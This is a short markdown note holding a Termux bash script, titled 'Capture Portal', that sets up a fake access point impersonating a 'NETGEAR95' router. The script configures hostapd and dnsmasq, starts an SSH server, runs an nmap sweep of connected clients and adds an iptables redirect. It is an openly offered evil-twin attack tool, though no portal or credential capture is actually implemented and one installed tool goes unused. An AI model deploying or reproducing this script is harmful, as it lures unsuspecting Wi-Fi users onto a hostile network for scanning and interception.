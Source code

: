 ```yaml
---
created: 2025-07-19T09:35:22-04:00
updated: 2025-07-19T09:35:54-04:00
---
```


# Capture Portal

#!/data/data/com.termux/files/usr/bin/bash

# Update and install required packages
pkg update && pkg upgrade -y
pkg install -y hostapd dnsmasq openssh nmap python procps dns2tcp

# Create hostapd configuration
cat <<EOF > ~/hostapd.conf
interface=wlan0
driver=nl80211
ssid=NETGEAR95
hw_mode=g
channel=6
wmm_enabled=0
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
wpa=2
wpa_passphrase=yourpassword
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
EOF

# Create dnsmasq configuration
cat <<EOF > ~/dnsmasq.conf
interface=wlan0
dhcp-range=10.0.0.10,10.0.0.50,255.255.255.0,12h
address=/gateway/10.0.0.1
address=/dns/10.0.0.1
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-queries
listen-address=10.0.0.1
EOF

# Start services
hostapd ~/hostapd.conf &
dnsmasq -C ~/dnsmasq.conf &
ssh-keygen -t rsa -b 2048 -f ~/.ssh/id_rsa -N ''
sshd
nmap -sn 10.0.0.0/24

# Redirect SSH port
iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT --to-port 2222
sshd -p 2222

echo "Fake NETGEAR95 access point set up successfully!"
